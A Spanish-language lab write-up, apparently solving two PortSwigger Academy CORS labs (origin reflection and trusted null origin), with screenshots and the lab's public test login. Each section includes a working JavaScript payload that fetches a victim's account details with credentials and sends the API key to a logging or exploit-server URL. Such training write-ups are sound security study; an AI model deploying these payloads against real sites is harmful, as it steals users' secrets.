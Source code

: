 # Cross-origin resource sharing (CORS)

## Lab: CORS vulnerability with basic origin reflection

### Enunciado

Este sitio web tiene una configuración CORS insegura, ya que confía en todos los orígenes. Crea un código JavaScript que use CORS para obtener la clave API del administrador y súbelo a tu servidor de exploits. El laboratorio se considera resuelto cuando logres enviar con éxito la clave API del administrador.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

Nos logueamos. Vemos la petición de los detalles del usuario.

<figure><img src="../../.gitbook/assets/image (1514).png" alt=""><figcaption></figcaption></figure>

Vemos que se encuentra la cabecera **Access-Control-Allow-Credentials** que es vulnerable a CORS. Añadimos la cabecera **Origin**.

<figure><img src="../../.gitbook/assets/image (1515).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto realizamos este script para enviarlo a la víctima.

```
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a6b006e0413a15d83e2e31b00e70026.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
      location='/log?key='+this.responseText;
  };
</script>

```

Viendo los logs vemos que una petición al enviarle a la víctima que decodificamos.

<figure><img src="../../.gitbook/assets/image (1516).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1517).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado la API.

<figure><img src="../../.gitbook/assets/image (1518).png" alt=""><figcaption></figcaption></figure>

## Lab: CORS vulnerability with trusted null origin

### Enunciado

Este sitio web tiene una configuración CORS insegura, ya que confía en el origen "null". Crea un código JavaScript que use CORS para obtener la clave API del administrador y súbelo a tu servidor de exploits. El laboratorio se considera resuelto cuando logres enviar con éxito la clave API del administrador.

Puedes iniciar sesión en tu propia cuenta con las siguientes credenciales:

* **Usuario:** `wiener`
* **Contraseña:** `peter`

### Resolución

Nos logueamos. Vemos la petición de los detalles del usuario.

<figure><img src="../../.gitbook/assets/image (1519).png" alt=""><figcaption></figcaption></figure>

Vemos que se encuentra la cabecera **Access-Control-Allow-Credentials** que es vulnerable a CORS. Añadimos la cabecera **Origin**.

<figure><img src="../../.gitbook/assets/image (1520).png" alt=""><figcaption></figcaption></figure>

Vemos que no está permitido el acceso desde **test.com**. Tras esto lo cambiamos a **null** el **Origin**.

<figure><img src="../../.gitbook/assets/image (1521).png" alt=""><figcaption></figcaption></figure>

Vemos que ahora sí que hay acceso a nulos. Sabiendo esto realizamos el script.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://0a47008e03322d42809f12540004005c.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
      location='https://exploit-0afe000e03de2d7f80ef1117010800cb.exploit-server.net/exploit/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

Viendo los logs vemos que una petición al enviarle a la víctima que decodificamos.

<figure><img src="../../.gitbook/assets/image (1522).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1523).png" alt=""><figcaption></figcaption></figure>
